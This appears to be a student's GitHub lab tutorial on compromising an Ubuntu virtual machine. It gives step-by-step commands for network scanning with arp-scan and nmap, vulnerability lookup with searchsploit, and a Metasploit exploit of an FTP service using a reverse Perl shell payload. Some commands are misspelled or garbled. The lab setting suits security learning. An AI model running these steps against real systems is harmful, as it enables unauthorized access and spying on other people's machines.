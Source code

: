 
# ♦ Day 13
</br>
</br>

## ◙ ***Getting into an UBUNTU***
 </br>
 
# ♦ Getting into an UBUNTU : 
   ⇨ In this session we will be learning how to get into an ubuntu device and can collect data or spying onto the host pc, for this we will be using an Ubuntu Virtual device in our local nettwork(Virtual Machine). 
   </br>
   </br>
### ◙ Step-By-Step Guide 

### • 1. Reconnaissance : First of all we will be checking our local network if there arne any other devices connected or not (Note: for this to work in VM make sure both the devices are in same network settings preferrably "NAT Network" </br>
For scanning our local network we will be using ***arp scan*** by using following commands:

    sudo arp-scan -l -I eth1

After this we have to check which one of the device is tht we are looking for so for that we will use ***nmap*** to identify operating systems of all the devices individaually by using:

    sudo nmap -O >Ip add<

### • 2. Search For Vulnerability : Now we will be searching for the vulnerabilities of the ip we confirmed by doing nmap scans now for vulnerability searching we will be using the following command

    namp -Pn -sV --script vuln -oN vuln-ubuntu-nmap.txt >IP add<

As we can see from above report tht the version tht is being used is by the name "PRODTPD 1.3.3c".


### • 3. Now we would like to search for some exploits taht we can try, for that we will be using ***"Searchsploit"*** to search for exploits :

    searchexploit PRODTPD 1.3.3c

As we acan see there are 2 exploits for this version, and we will be using the one which can be done (Metasploit) cuz it most efficient and easy to do


### • 4. METASPLOIT : The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. </br>

• Now to acess metasploit we have to type a command 

    msfconsole

• After getting into msfconsole we have to search for the exploits ***"PRODTPD 1.3.3c"***

     search PRODTPD 1.3.3c 

• Now select the 1st one with using command ***"use 0"***

    use 0

### • 5. Setting up Msfconsole : 

• Now we have to set up our msfconsole by seeing all the options that wre neede to be filled by watching them carefully ***"Show options"***

    show options

• As we can see there is no LHOST is in this payload instead it is asking for CHOST which we dont know so we will be changing the payload by using the given command
     
    show payloads
    set  cmd/unix/reverse_perl
    
now as we can see above we have to fill LPORT, LHOST, RHOSTS & RPORT by using :

    set RHOSTS >The Recivers Ip<
    set LHOST >The Linux Ip<
    set RPORT >The Reciving Port<
    set LPORT >The Listening Port<

⇨   After setting all tht we just simply have to Use ***"exploit"*** command

     exploit

• Now we have successfully gained the access of the UBUNTU Machine, now we can use ***"help"*** command to get all the details of what can we do in the system
